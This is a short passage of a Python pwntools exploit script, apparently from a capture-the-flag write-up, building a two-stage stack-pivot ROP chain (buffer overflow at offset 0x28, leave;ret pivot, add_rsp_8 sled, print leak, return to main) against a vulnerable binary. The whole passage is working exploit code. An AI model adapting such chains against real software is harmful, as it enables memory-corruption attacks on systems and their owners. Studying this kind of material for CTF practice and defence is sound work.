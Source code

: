 ```python
leave_ret    = 0x4011cd

### Set rbp to 0x404058 ###

first_stage_payload = flat({
    0x28: [
        pop_rbp_ret,
        landing_addr+0x20,
        gets_call
        ]
    })

io.sendline(first_stage_payload)
log.info(f'first stage out: {io.recv()}')

second_stage_payload = flat({
    0: [
        pop_rbp_ret,
        landing_addr+0x118,
        leave_ret
        ],
    0x20:[
        print_addr+0x20,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8, #this one last
        add_rsp_8,
        add_rsp_8,
        add_rsp_8,
        add_rsp_8, # success with rop
        print_call,
        #0x4141414141414141,
        exe.sym.main,
        0x4242424242424242,
        ]
    })

io.sendline(second_stage_payload)

log.info(f'second stage out: {io.recvline()}')
```